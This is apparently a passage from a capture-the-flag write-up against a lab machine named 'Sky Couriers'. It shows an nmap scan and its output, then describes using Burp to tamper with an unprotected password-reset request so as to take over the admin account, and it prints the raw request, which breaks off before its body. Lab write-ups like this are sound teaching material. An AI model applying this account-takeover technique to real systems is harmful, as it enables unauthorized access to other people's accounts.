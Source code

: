 ## User flag

Nothing really meaningful is found in the port scanning phase

```shell
sudo nmap -p- -sS --min-rate 5000 -n -vv 10.10.195.41
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sky Couriers
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

With that done I checked the webpage. By clicking on the "Merchant central" we see a login/register page so I created an account and then logged in. Almost nothing was working on the dashboard except from the reset user page that lets you change your password. Since if doesn't ask you for your current password I thought it could be a CSRF but it turned out more interesting than that.

If we intercept the request with burp we can change the password to whatever account we please. So after founding the admin user in the profile -> upload photo section I changed it's password to test. This would allow us to upload files from the upload photo section.

```
POST /v2/lostpassword.php HTTP/1.1

Host: 10.10.195.41

Content-Length: 538

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://10.10.195.41

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryesnSIzdbDxaMXJrZ

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://10.10.195.41/v2/ResetUser.php

Accept-Encoding: gzip, deflate

Accept-Language: es,en-US;q=0.9,en;q=0.8

Cookie: PHPSESSID=l9fjr8vlt1q03bt6ee4mrqu4e1; Bookings=0; Manifest=0; Pickup=0; Delivered=0; Delay=0; CODINR=0; POD=0; cu=0

Connection: close



```